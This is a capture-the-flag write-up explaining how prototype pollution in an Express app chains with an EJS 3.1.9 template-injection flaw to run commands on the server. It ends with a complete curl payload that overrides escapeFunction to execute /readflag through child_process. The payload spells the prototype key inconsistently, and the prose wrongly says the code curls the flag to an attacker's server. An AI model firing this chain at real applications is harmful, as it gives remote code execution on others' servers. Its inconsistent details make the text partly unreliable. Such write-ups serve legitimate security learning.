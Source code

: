 # Perfect_Product

## Challenge description:
+ Check out my newest product gallery.
+ Source given

## Analysis
+ This application allows us to add a new product, view the existing product's details and print the product details

Breaking down the source code:
+ This application is using ejs as the engine to enable the use of ejs templates for rendering dynamic content
+ The products array holds the information about different products. Each product has properties like name, description,price,tax,country and image
+ While adding a product, if any of these paramters are missing or not of type string, it sends with the response as "bad_request". Other new product will be added and rendered
+ in /product, `Object.assign` is used to merge `req.query` and `req.body` objects into the params object without validation
+ 
```
const params = req.query || {};
Object.assign(params, req.body || {});
```
If we include a malicious payload in the request parameters, they can manipulate the `params` objects and modify the prototype.
It first initializes the params object with the query parameters (req.query) or an empty object if no query parameters are present. Then, it uses Object.assign() to merge the request body (req.body) with the params object.

```
 if(!(strings instanceof Array) && !Array.isArray(strings)){
    strings = ['NaN', 'NaN', 'NaN', 'NaN', 'NaN'];
  }
```
+ The purpose of this code snippet seems to ensure that the strings variable is always an Array. If it is not an Array, it initializes it with the default values ['NaN', 'NaN', 'NaN', 'NaN', 'NaN'].
+ From the source code we can understand that the version of ejs is 3.1.9. This version of ejs is vulnerable to server side template injection.<br>
refer: https://github.com/mde/ejs/issues/735
+ So, basically ejs template injection will be possible along with the prototype pollution in params in /product.
+ So, normally while doing prototype pollution, we set __proto__ as something like
http://localhost:5001/?__proto__[propertyName]=propertyValue. To check whether the requried object got affect or not, we can check if the propertyName exists in the object's prototype chain. You can do this by using the hasOwnProperty method. For example: obj.hasOwnProperty('propertyName'). If the result is true, it means the propertyName was added or modified due to the prototype pollution attack.

+ But in this challenge we can do like this because of a check for Array, so you had to create a complex object which is an array at the same time. So, we set the value in like this: `v[__proto__]=1`(This payload aims to pollute the __proto__ property with the value 1.). This also called prototype poisoning.
refer: Prototype Poisoning.
https://security.snyk.io/vuln/SNYK-JS-QS-3153490
As given in the above link the first part of the payload could possibly be:
`?name=myname&v[__proto__]&v[__proto__]&v[length]=4&v[0]=0&v[1]=1&v[2]=2&v[3]=3`.It sets the __proto__ property to an array with the values [0, 1, 2, 3].
+ This basically the first part of the challenge.
+ The second part of the challenge is basically overwriting the view options which in turn will allow js injection in compiled ejs templates
+ EJS is a popular templating engine that allows embedding JavaScript code within HTML templates. These templates are usually compiled server-side to generate dynamic HTML that is then sent to the client.
The "view options" in EJS refer to configuration settings that control how the templates are compiled and rendered. These options can include various settings related to template rendering, such as escaping HTML entities or enabling strict mode
+ refer this cve: https://github.com/mde/ejs/issues/735
second part of the payload will be: `v[_proto__][client]=1&v[_proto__][settings][view+options][escapeFunction]=JSON.stringify;process.mainModule.require("child_process").execSync("/readflag").`
_proto__[settings][view options][escapeFunction] property to a string that includes JavaScript code to execute. In this case, it uses JSON.stringify to stringify a function that executes a command to read the flag using curl and sends it to the attacker's server.
+ Coming to the third part of the challenge, templating engines, including EJS, often cache compiled templates for performance reasons. When a template is compiled, it is typically stored in memory for subsequent use.
+ Third part of the payload: `v[proto_][cache]`
+ If you don't include the "v[proto_][cache]" property in the payload, the template engine's cache will not be reset. This means that the previously compiled version of the template might still be used.
<br>
So, the final payload looks like:<br>
```
curl -g 'http://localhost:5001/product?name=myname&v[__proto__]&v[__proto__]&v[length]=4&v[0]=0&v[1]=1&v[2]=2&v[3]=3&v[_proto__][client]=1&v[_proto__][settings][view+options][escapeFunction]=JSON.stringify;process.mainModule.require("child_process").execSync("/readflag")&v[_proto__][cache]'
```
